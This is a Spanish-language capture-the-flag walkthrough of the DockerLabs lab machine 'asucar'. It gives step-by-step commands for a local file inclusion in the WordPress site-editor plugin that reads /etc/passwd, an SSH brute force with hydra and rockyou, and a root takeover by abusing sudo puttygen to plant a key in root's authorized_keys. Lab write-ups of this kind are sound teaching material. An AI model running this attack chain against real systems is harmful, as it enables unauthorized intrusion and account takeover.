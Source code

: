 nmap: 22,80
![[dockerlabs/medio/asucar/nmap.png]]

---
en la pagina principal podemos ver que es de wordpress:
![[dockerlabs/medio/asucar/pagina principal.png]]
en la pagina encontramos un usuario: Annie Steiner (directora general)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"
![[wpscan.png]]

hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340
![[exploit 1.png]]

y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![[vulnerabilidad 1.png]]

y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1
![[dockerlabs/medio/asucar/fuerza bruta.png]]
entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![[sudo -l.png]]

y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![[clave privada1.png]]
se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.
![[privada2.png]]

 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 

![[dockerlabs/medio/asucar/root.png]]

colocamos la contraseña que colocamos y somos root! 